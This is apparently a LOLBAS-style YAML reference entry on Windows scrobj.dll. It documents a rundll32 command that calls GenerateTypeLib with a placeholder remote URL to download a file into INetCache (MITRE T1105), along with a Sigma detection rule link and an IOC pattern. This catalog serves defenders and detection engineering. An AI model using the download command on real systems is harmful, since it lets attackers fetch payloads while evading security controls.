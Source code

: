 ```yaml
---
Name: Scrobj.dll
Description: Windows Script Component Runtime
Author: Eral4m
Created: 2021-01-07
Commands:
  - Command: rundll32.exe C:\Windows\System32\scrobj.dll,GenerateTypeLib {REMOTEURL:.exe}
    Description: Once executed, scrobj.dll attempts to load a file from the URL and saves it to INetCache.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\scrobj.dll
  - Path: c:\windows\syswow64\scrobj.dll
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - IOC: Execution of rundll32.exe with 'GenerateTypeLib' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479106975967240209
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

